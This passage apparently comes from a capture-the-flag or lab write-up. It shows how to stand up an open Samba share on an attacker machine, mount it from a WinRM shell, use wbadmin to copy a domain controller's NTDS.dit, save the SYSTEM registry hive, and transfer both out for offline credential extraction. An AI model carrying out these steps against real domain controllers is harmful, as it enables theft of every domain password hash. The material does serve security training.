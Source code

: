 Modify the contents of `/etc/samba/smb.conf` to the following:

```powershell
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
interfaces = tun0
smb ports = 445
[smb]
comment = Samba
path = /tmp/
guest ok = yes
read only = no
browsable = yes
force user = smbuser
```

Create a new user that matches the user in the force user parameter.
```powershell
adduser smbuser
```

Next, create a password for our newly created user.
```powershell
smbpasswd -a smbuser
```

Then start the SMB demon with service smbd restart . In our Win-Rm session we can mount the share:
```powershell
net use k: \\10.10.14.3\smb /user:smbuser smbpass
```

On the Win-Rm shell, we can backup the NTDS folder with wbadmin.
```shell
echo "Y" | wbadmin start backup -backuptarget:\\10.10.14.3\smb -
include:c:\windows\ntds
```

Next, retrieve the version of the backup.
```powershell
wbadmin get versions
```

We can now restore the NTDS.dit file, specifying the backup version.
```shell
echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -
items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreac
```

We need to export the system hive too, and transfer both this and the NTDS.dit to our local machine.

```powershell
reg save HKLM\SYSTEM C:\system.hive
```

Copy the files to our box via our mounted SMB drive.

